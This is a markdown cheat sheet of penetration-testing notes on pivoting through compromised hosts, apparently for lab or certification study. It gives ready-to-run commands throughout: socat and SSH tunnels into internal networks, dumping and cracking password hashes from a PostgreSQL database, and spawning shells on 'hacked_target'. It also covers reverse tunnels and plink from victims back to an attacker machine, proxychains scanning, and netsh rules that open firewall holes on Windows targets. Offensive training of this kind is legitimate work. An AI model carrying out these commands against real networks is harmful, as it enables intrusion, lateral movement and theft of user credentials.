 # Tunneling

## Port forwarding

### Socat

| WAN | DMZ | Inside LAN |
|-----|-----|------------|
| Kali | Gateway | DB |
| IpAttacker | IpDmzOut - IpDmzIn | IpDbDeepIn |

Run a Socat tunnel on the gateway to the database:
```
gateway$ socat -ddd TCP-LISTEN:2345,fork TCP:DbHostIP:5432
```
and connect to the DB directly from Kali (and retrieve password hashes):
```
kali$ psql -h GatewayIP -p 2345 -U postgres
> \l
> \c mydb
> select table_schema,table_name from information_schema.tables where table_name like '%user%;
> select * from user_table
> \o hashes.txt
> select t1.id,t1.user_name,t2.password_hash from user_table as t1 inner join credential_table as t2 on t1.id = t2.user_id;
> \o
> \q
```
Crack the hashes:
```
kali$ hashcat -m 12001 hashes.txt /usr/share/wordlists/fasttrack.txt # Atlassian hashcat code: hashcat -h
kali$ vim afterhashcat.txt # copy-paste the lines which have been cracked
kali$ tr -d ' ' hashes.txt | awk -F'|' '(NR >2) {print $2, $17}' > loginpass.txt
kali$ vim loginpass.txt # clean ?
kali$ awk -F' ' '{a[$1]=a[$1]?a[$1]":"$2:$2":"$1;}END{for (i in a) print a[i];}' loginpass.txt afterhashcat.txt | awk -F ':' '$3 {print $1, $3}' > final.txt
```

Notes:
- Confluence config file: `/var/atlassian/application-data/confluence/confluence.cfg.xml`
- Awk tips: https://www.theunixschool.com/2012/06/awk-10-examples-to-group-data-in-csv-or.html

Tunnel for an SSH connection: `socat -ddd TCP-LISTEN:2222,fork TCP:DbHostIp:22`

### Ssh

| WAN | DMZ | Inside LAN - subnet 1 | Inside LAN - subnet 2 |
|-----|-----|------------|------|
| Kali | Gateway | DB | Windows |
| IpAttacker | IpDmzOut - IpDmzIn | IpDbOut - IpDbIn | IpWindows |

TTY functionalities with Python:
```
hacked_target$ python3 -c 'import pty; pty.spawn("/bin/sh")'
hacked_target$ python3 -c 'import pty; pty.spawn(["env","TERM=xterm-256color","/bin/bash","--rcfile", "/etc/bash.bashrc","-i"])'
```

Netcat port discovery:
```
hacked_target$ for i in $(seq 1 254) ; do nc -zv -w 1 ${subnet}.${i} $Port; done # listen, verbose, timeout 1sec
```

#### Ssh forward tunnel

```
DmzHost$ ssh -N -L 0.0.0.0:$PortDmzOut:$IpWindows:$PortWindows user@$IpDbOut
Kali$ smbclient -p $PortDmzOut -L //$IpDmzOut/ -U someuser --password=somepass
```

#### Ssh dynamic tunnel

```
DmzHost$ ssh -N -D 0.0.0.0:$PortDmzOut user@$IpDbOut
Kali$ sudo vi /etc/proxychains4.conf
    socks5 $IpDmzOut $PortDmzOut
Kali$ proxychains smbclient -L //$IpWindows/ -U someuser --password=somepass
Kali$ proxychains nmap -vvv -sT --top-ports=20 -Pn $IpWindows
```

#### Ssh reverse tunnel

```
hackeduser@hackedtarget$ sh -N -R 127.0.0.1:$KaliPort:$IpDbIn:$PortDbIn user@IpAttacker # Only Kali will be able to use this tunnel...
hackeduser@hackedtarget$ sh -N -R 0.0.0.0:$KaliPort:$IpDmzIn:$PortDmzIn user@IpAttacker # All IPs will be able to connect through $KaliPort on the Kali box
```
Check with `ss -lntpu` on Kali. Example of connection with PostGreSQL:
```
kali$ psql -h 127.0.0.1 -p $KaliPort -U postgre_user
```
then on the DB, as usual:
```
postgre=# \l
postgre=# \c some_database
postgre=# select * from some_table ;
```

#### Ssh dynamic reverse tunnel

```
hackeduser@hackedtarget$ ssh -N -R $KaliPort kaliuser@IpAttacker
```
then check with `ss -lntpu`, prepare a socks proxy on `/etc/proxychains4.conf`:
```
...
socks5 127.0.0.1 $KaliPort
```
and scan the new target:
```
kali$ proxychains nmap -vvv -sT --top-ports=20 -Pn -n $NewTargetIp
```

#### Sshuttle

On the target:
```
hackeduser@hackedtarget$ socat TCP-LISTEN:2222,fork TCP:$IpDbIn:22
```
then run the sshuttle on Kali:
```
kali$ sshuttle -r db_user@IpDmzOut:2222 a.b.c.0/24 aa.bb.cc.0/24 # $IpDbOut subnet to $IpWindows subnet
```
and test
```
kali$ smbclient -L //$IpWindows/ -U some_user --password=some_pass
```

### Windows

#### Ssh.exe

With an ssh binary on Windows, tunnel work in the same way:
```
Windows PS> ssh.exe -N -R $ListeningPort user@$IpAttacker
Kali$ ss -lntpu # check
Kali$ vim /etc/proxychains4.conf
    socks5 127.0.0.1 $ListeningPort
Kali$ proxychains mycommand myoptions # for example: `proxychains psql -h $IpDbOut -U postgre_user`
Kali$ proxychains nmap -vvv -p $a-$b -sT -Pn -n $IpDmzInOtherTarget
```

#### Plink

Upload Plink on the target with an Apache webserver: `/usr/share/windows-resources/binaries/plink.exe`
```
KaliRshell$ cmdprompt> C:\path\to\plink.exe -ssh -l kaliuser -pw somepass -R 127.0.0.1:9833:127.0.0.1:3389 $IpAttacker
KaliRshell$ cmdprompt> KaliNormalShell$ ss -ntplu # check
Kali$ xfreerdp /u:rdp_user /p:rdp_pass /v:127.0.0.1:9833
```

No-TTY like case:
```
rshellcmd> cmd.exe /c echo y | .\plink.exe -ssh -l kaliuser -pw somepass -R 127.0.0.1:9833:127.0.0.1:3389 $IpAttacker
```

#### Netsh

On the Windows target, poke a firewall hole with Netsh by adding a portproxy rule (forwarding):
```
cmd> netsh interface portproxy add v4tov4 listenport=2222 listenaddress=$IpDmzOut connectport=22 connectaddress=$IpDbOut
```
and check:
cmd> netstat -anp TCP | find "2222"
cmd> netsh interface portproxy show all
```
then open the port (hole):
```
cmd> netsh advfirewall firewall add rule name="my_rule_name" protocol=TCP dir=in localip=$IpDmzOut localport=2222 action=allow
```
Connect from Kali:
```
kali$ ssh user@$IpDmzOut -p2222
```
and when done, clean the hole:
```
cmd> netsh advfirewall firewall delete rule name="my_rule_name"
cmd> netsh interface portproxy del v4tov4 listenport=2222 listenaddress=$IpDmzOut
cmd> netsh interface portproxy show all
```



